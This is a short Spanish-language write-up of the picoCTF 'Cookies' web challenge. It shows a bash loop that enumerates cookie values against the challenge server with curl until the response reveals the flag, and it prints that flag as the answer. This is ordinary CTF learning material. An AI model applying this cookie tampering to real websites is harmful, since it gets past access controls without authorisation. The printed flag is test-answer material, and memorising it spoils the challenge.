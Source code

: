## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución
```bash
hervi-picoctf@webshell:~$ curl http://mercury.picoctf.net:64944/check -H "Cookie: name=30" | grep "I love"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   209  100   209    0     0  14161      0 --:--:-- --:--:-- --:--:-- 14928
hervi-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```
## Notas
Se tiene que modificar la cookie desde la terminal utilizando un _for_ que determine cuales de las cookies contienen dentro de ellas una bandera de nombre "pico".
